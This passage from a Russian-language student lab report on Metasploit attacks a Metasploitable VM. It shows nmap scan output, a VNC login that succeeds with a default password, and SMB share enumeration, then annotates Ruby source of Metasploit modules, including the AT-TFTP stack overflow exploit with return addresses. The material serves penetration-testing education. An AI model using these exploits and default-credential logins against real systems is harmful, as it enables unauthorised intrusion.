 доступна консоль удаленного хоста. Ее можно открыть, нажав правой кнопкой мыши на хост и выбрав необходимую консоль (рисунок \ref{ris:img10} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/11}}
\caption{Открытие необходимой консоли}
\label{ris:img10}  
\end{figure}
После чего можно ввести любую команду, напрмиер просмотрим список файлов с помощью команды ls (рисунок \ref{ris:img11} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/12}}
\caption{Проверка работы консоли}
\label{ris:img11}  
\end{figure}
 Также можно просмотреть сервисы, запущенные на удаленном хосте (рисунок \ref{ris:img12} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/13}}
\caption{Просмотр сеансов, запущенных на атакуемом хосте}
\label{ris:img12}   
\end{figure}

\subsubsection{Подключение к VNC серверу и получение доступа к консоли}
Определим, на каком порте запущен VNC сервер на атакуемой машине. Порт 5900.
\begin{verbatim}
root@kali:~# nmap 192.168.0.103 -sV

Starting Nmap 7.01 ( https://nmap.org ) at 2016-04-02 11:56 EDT
Nmap scan report for 192.168.0.103
Host is up (0.0014s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
\end{verbatim}
Для подключение к VNC серверу используем эксплоит auxiliary/scanner/vnc/vnc\_login. Для этого, как обычно, установим опцию RHOSTS на атакуемый хост 192.168.0.103. После выполнения видим, что эксплоит указал login, с помощью которого можно подключиться к VNC серверу атакуемой машины. Попробуем это осуществить командой vncviewer, указав порт 5900.
\begin{verbatim}
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(vnc_login) > set RHOSTS 192.168.0.103
RHOSTS => 192.168.0.103

msf auxiliary(vnc_login) > exploit

[*] 192.168.0.103:5900 - Starting VNC login sweep
[+] 192.168.0.103:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(vnc_login) > vnsviewer 192.168.0.103:5900
[-] Unknown command: vnsviewer.
msf auxiliary(vnc_login) > vncviewer 192.168.0.103:5900
[*] exec: vncviewer 192.168.0.103:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using shared memory PutImage
ShmCleanup called
\end{verbatim}
Удалось успешно подключиться к серверу и получить доступ  к консоли (рисунок \ref{ris:img13} ) 
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/13}}
\caption{Подключение к VNC серверу}
\label{ris:img13}  
\end{figure}

\subsubsection{Получение списка директорий в общем доступе по протоколу SMB}
Для данной цели используем эксплоит auxiliary/scanner/smb/smb\_enumshares.
\begin{verbatim}
msf > use auxiliary/scanner/smb/smb_enumshares

msf auxiliary(smb_enumshares) > set RHOSTS 192.168.0.103
RHOSTS => 192.168.0.103
msf auxiliary(smb_enumshares) > exploit

[+] 192.168.0.103:139 - print$ - (DISK) Printer Drivers
[+] 192.168.0.103:139 - tmp - (DISK) oh noes!
[+] 192.168.0.103:139 - opt - (DISK) 
[+] 192.168.0.103:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.0.103:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{verbatim}
Модуль показал, какие директории доступны для службы SMB для чтения / записи. 
\subsection{Изучение файлов с исходными кодами}
\subsubsection{Модуль auxiliary/scanner/ftp/anonymous.rb}
Модуль сканирует диапазон IP-адресов для FTP-сервера, которые позволяют анонимный доступ и определяет доступные операции: чтение / запись. \
\
Анализ кода.\\
Первым этапом указываются параметры модуля: имя, описание, автор и другое, а также регистрируются опции: RPORT.
\begin{verbatim}
require 'msf/core'


class MetasploitModule < Msf::Auxiliary

  include Msf::Exploit::Remote::Ftp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report

  def initialize
    super(
      'Name'        => 'Anonymous FTP Access Detection',
      'Description' => 'Detect anonymous (read/write) FTP server access.',
      'References'  =>
        [
          ['URL', 'http://en.wikipedia.org/wiki/File_Transfer_Protocol#Anonymous_FTP'],
        ],
      'Author'      => 'Matteo Cantoni <goony[at]nothink.org>',
      'License'     => MSF_LICENSE
    )

    register_options(
      [
        Opt::RPORT(21),
      ], self.class)
  end
\end{verbatim}
После определяется IP-адрес (рандомный, функция rand\_text\_alpha) и его права доступа (Read/Write; Read-Only).
\begin{verbatim}
 def run_host(target_host)

    begin

      res = connect_login(true, false)

      banner.strip! if banner

      dir = Rex::Text.rand_text_alpha(8)
      if res
        write_check = send_cmd(['MKD', dir] , true)

        if write_check && write_check =~ /^2/
          send_cmd( ['RMD', dir] , true)

          print_good("#{target_host}:#{rport} - Anonymous READ/WRITE (#{banner})")
          access_type = 'Read/Write'
        else
          print_good("#{target_host}:#{rport} - Anonymous READ (#{banner})")
          access_type = 'Read-only'
        end
        register_creds(target_host, access_type)
      end

      disconnect

    rescue ::Interrupt
      raise $ERROR_INFO
    rescue ::Rex::ConnectionError, ::IOError
    end
  end
\end{verbatim}
После чего регистрируется определенная эксплоитом информация.
\begin{verbatim}
def register_creds(target_host, access_type)
    # Build service information
    service_data = {
      address: target_host,
      port: datastore['RPORT'],
      service_name: 'ftp',
      protocol: 'tcp',
      workspace_id: myworkspace_id
    }

    # Build credential information
    credential_data = {
      origin_type: :service,
      module_fullname: self.fullname,
      private_data: datastore['FTPPASS'],
      private_type: :password,
      username: datastore['FTPUSER'],
      workspace_id: myworkspace_id
    }

    credential_data.merge!(service_data)
    credential_core = create_credential(credential_data)

    # Assemble the options hash for creating the Metasploit::Credential::Login object
    login_data = {
      access_level: access_type,
      core: credential_core,
      last_attempted_at: DateTime.now,
      status: Metasploit::Model::Login::Status::SUCCESSFUL,
      workspace_id: myworkspace_id
    }

    login_data.merge!(service_data)
    create_credential_login(login_data)
  end
\end{verbatim}
\subsubsection{Модуль exploits/windows/tftp/attftp\_long\_filename.rb}
Этот модуль использует для переполнения стека, он отправляет запрос (на получение / запись), используя очень длинные имена.\\
Анализ кода.\\
Первым этапом указываются параметры модуля: имя, описание, автор и другое, а также регистрируются опции: RPORT, LHOST.
\begin{verbatim}
require 'msf/core'
class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
        request (get/write) for an overly long file name.
      },
      'Author'         => [ 'patrick' ],
      'References'     =>
        [
          ['CVE', '2006-6184'],
          ['OSVDB', '11350'],
          ['BID', '21320'],
          ['EDB', '2887']
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
      'Privileged'     => false,
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69),
        Opt::LHOST() # Required for stack offset
      ], self.class)
  end

\end{verbatim}
После чего генерируются длинные имена (make\_nops(25 - datastore['LHOST'].length)) и отправляются по протоколу UDP (udp\_sock.put(sploit)).
\begin{verbatim}
 def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
  end
\end{verbatim}
\subsubsection{Модуль auxiliary/admin/vmware/poweron\_vm.rb}
Модуль пытается включить указанную виртуальную машину на VMWare.\\
Анализ кода.\\
Первым этапом указываются параметры модуля и регистрируются опции: RPORT = 443, USERNAME = "root", PASSWORD = "password", VM - имя виртуальной машины, которую необходимо включить.
\begin{verbatim}
require 'msf/core'

class MetasploitModule < Msf::Auxiliary

  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Report
  include Msf::Exploit::Remote::VIMSoap

  def initialize
    super(
      'Name'           => 'VMWare Power On Virtual Machine',
      'Description'    => %Q{
        This module will log into the Web API of VMWare and try to power on
        a specified Virtual Machine.
      },
      'Author'         => ['theLightCosine'],
      'License'        => MSF_LICENSE,
      'DefaultOptions' => { 'SSL' => true }
    )

    register_options(
      [
        Opt::RPORT(443),
        OptString.new('USERNAME', [ true, "The username to Authenticate with.", 'root' ]),
        OptString.new('PASSWORD', [ true, "The password to Authenticate with.", 'password' ]),
        OptString.new('VM', [true, "The VM to try to Power On"])
      ], self.class)
  end

\end{verbatim}
После модуль логинится в VMWare, пытается найти заданную виртуальную машину и включить ее. По окончанию выводится сообщение о результатах работы модуля.
\begin{verbatim}
def run

    if vim_do_login(datastore['USERNAME'], datastore['PASSWORD']) == :success
      vm_ref = vim_find_vm_by_name(datastore['VM'])
      case vm_ref
      when String
        return_state = vim_powerON_vm(vm_ref)
        case return_state
        when 'success'
          print_good "VM Powered On Successfully"
        when 'alreadyON'
          print_status "The Server says that VM #{datastore['VM']} is already on."
        else
          print_error "The server returned an unexpected status #{return_state}"
        end
      when :noresponse
        print_error "The request timed out"
      when :error
        print_error @vim_soap_error
      when nil
        print_error "Could not locate VM #{datastore['VM']}"
      end
    else
      print_error "Login Failure on #{datastore['RHOST']}"
      return
    end
  end
\end{verbatim}
\section{Вывод}
В ходе данной лабораторной работы произошло ознакомление с инструментом тестов на проникновение Metasploit, были рассмотрены основные его команды, опробованы некоторые типы атак из консоли Metasplot и графической оболочки Armitage. \\
Были изучены несколько исходный файлов эксплоитов на ruby, тем самым были поняты алгоритмы их написания. 
\end{document}
